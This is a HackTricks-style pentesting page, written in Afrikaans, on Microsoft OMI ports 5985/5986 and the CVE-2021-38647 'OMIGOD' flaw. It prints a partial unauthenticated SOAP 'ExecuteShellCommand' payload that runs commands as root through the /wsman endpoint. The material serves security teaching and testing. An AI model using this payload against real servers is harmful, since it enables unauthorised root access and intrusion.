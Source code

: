 # 5985,5986 - Pentesting OMI

{{#include ../banners/hacktricks-training.md}}

### **Basiese Inligting**

**OMI** word aangebied as 'n **[open-source](https://github.com/microsoft/omi)** hulpmiddel deur Microsoft, ontwerp vir afstands konfigurasie bestuur. Dit is veral relevant vir Linux bedieners op Azure wat dienste soos gebruik:

- **Azure Automation**
- **Azure Automatic Update**
- **Azure Operations Management Suite**
- **Azure Log Analytics**
- **Azure Configuration Management**
- **Azure Diagnostics**

Die proses `omiengine` word geaktiveer en luister op alle interfaces as root wanneer hierdie dienste geaktiveer word.

**Standaard poorte** wat gebruik word is **5985** (http) en **5986** (https).

### **[CVE-2021-38647 Kwetsbaarheid](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647)**

Soos waargeneem op 16 September, is Linux bedieners wat in Azure ontplooi is met die genoemde dienste kwesbaar weens 'n kwesbare weergawe van OMI. Hierdie kwesbaarheid lê in die OMI bediener se hantering van boodskappe deur die `/wsman` eindpunt sonder om 'n Authentication header te vereis, wat die kliënt verkeerdelik autoriseer.

'n Aanvaller kan dit benut deur 'n "ExecuteShellCommand" SOAP payload te stuur sonder 'n Authentication header, wat die bediener dwing om opdragte met root regte uit te voer.
```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing"
...
<s:Body>
<p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
<p:command>id</p:command>
<p:timeout>0</p:timeout>
</p:ExecuteShellCommand_INPUT>
</s:Body>
</s:Envelope>
```
Vir meer inligting oor hierdie CVE **[check this](https://github.com/horizon3ai/CVE-2021-38647)**.

## Verwysings

- [https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/](https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/)
- [https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/](https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/)

{{#include ../banners/hacktricks-training.md}}
